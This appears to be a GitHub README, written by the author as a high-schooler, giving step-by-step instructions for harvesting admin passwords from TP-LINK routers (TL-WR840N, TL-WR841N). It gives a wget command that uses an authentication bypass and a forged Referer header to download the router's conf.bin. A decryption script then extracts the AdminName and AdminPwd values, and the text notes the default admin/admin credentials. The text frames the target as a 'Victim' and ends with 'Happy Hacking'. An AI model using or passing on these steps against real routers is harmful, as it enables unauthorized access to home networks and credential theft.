 Note: what follows is my first security related "Wow" moment. I was in high school and was just starting cybersec. It has many poor terms and errors. But, I've decided to left it as-is as a reminder that how bad I'm at cybersec. Hope you like :slight_smile:

# TP-LINK Routers Admin Account Password Harvesting Vulnerability.
This **Vulnerability** basically uses another [Vulnerability](https://www.exploit-db.com/exploits/44781) which is a **limited authentication bypass vulnerability** using which it downloads the configuration file of the Router.

This **configuration file(conf.bin)** is the **most sensitive piece of information** that a **Hacker** would love to have of its **Victim.**
But this configuration file is **Encrypted** by the Vendor (Essentially **TP-LINK**).

*Fortunately,* This configuration file can be **Decrypted.** 

To Exploit this Vulnerability just follow the following guidelines:-

# The Game Show

## Getting The File

First of all you need to download the configuration file using the **Wget** utility using the following command:-
> wget -d --header="User-Agent: Mozilla/5.0 (Windows NT 6.0) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.97 Safari/537.11" --header="Referer: http://192.168.0.1/mainFrame.htm" --header="Accept-Encoding: compress, gzip" http://192.168.0.1/cgi/conf.bin

You can customize the headers by yourself also but just remember not to omit the **Referer** Header.

Now, As you got the configuration file, next step is to decrypt it.

## Decrypting the File
As to decrypt the file you will need the file given in this repository.
I got this Decrypting Script from another Github [Repository](https://github.com/sta-c0000/tpconf_bin_xml) 
**Thanks "sta-c0000"**

Use the following command to decrypt the conf.bin file:-
>python3 decrypt.py conf.bin conf.xml

You can change the last argument to change the filename as desired.
In this .xml file you will find all the configuration of the router.
To Quickly find the admin username and password,search admin within the file.
Then you will find the AdminName and AdminPwd tags.
And their values will be in the *val* variable.
Like This:-
>
      <AdminName val=Alexis />
      <AdminPwd val=$up3rS3cuRePA$$W0rd! />

**Note:**
You will not be able to open the .xml file in most .xml editors due to some header problems.
Simply Open the file using Nano,Vim,Notepad++,etc.
**Please Note that if you not find these tags in the .xml file then the Victim is using Default Credentials.**

**Which Are:-**
*user: admin*
*password: admin*

# Affected Devices
At this time it is not known that how many devices are Vulnerable To this technique.
But the devices which i tested on are:

- TL-WR840N
- TL-WR841N

**Some Other Routers of TP-LINK are also vulnerable of a similar kind of attack**

- WL-WA850RE

[Link To the Repository](https://gist.github.com/eacmen/)

Happy Hacking!!! 🤑
